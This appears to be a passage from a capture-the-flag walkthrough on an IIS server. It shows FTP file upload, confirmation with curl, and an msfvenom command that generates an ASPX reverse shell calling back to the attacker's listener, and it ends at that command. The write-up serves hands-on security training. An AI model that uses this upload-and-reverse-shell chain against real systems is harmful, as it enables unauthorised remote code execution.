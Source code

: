 I wonder if we can upload files?

``` bash
mput test.txt
```

It appears to:

```
mput test.txt? y
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
6 bytes sent in 0.00 secs (82.5264 kB/s)
```

Checking the directory shows the file

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
10-10-19  05:39AM                    6 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.

```

Interesting, can I read it via curl? I drop the FTP sessions and try with:

``` bash
curl -ik $TARGET/test.txt
```

Yes I can!

```
HTTP/1.1 200 OK
Content-Type: text/plain
Last-Modified: Thu, 08 Feb 2018 02:39:05 GMT
Accept-Ranges: bytes
ETag: "bc536ce2137fd51:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Thu, 08 Feb 2018 02:42:22 GMT
Content-Length: 6
```
 
By virtue the site is powered by ASP, I wonder if I can place executable code?

In order to get RCE, my plan is to upload an asp reverse shell then visit it in the browser to trigger the shell back to a listener on my attacking machine.

First we need to generate a non-staged reverse shell payload with msfvenom:

``` bash
msfvenom -p windows/shell_reverse_tcp -f aspx -o shell.aspx LHOST=$ATTACK LPORT=1337
```
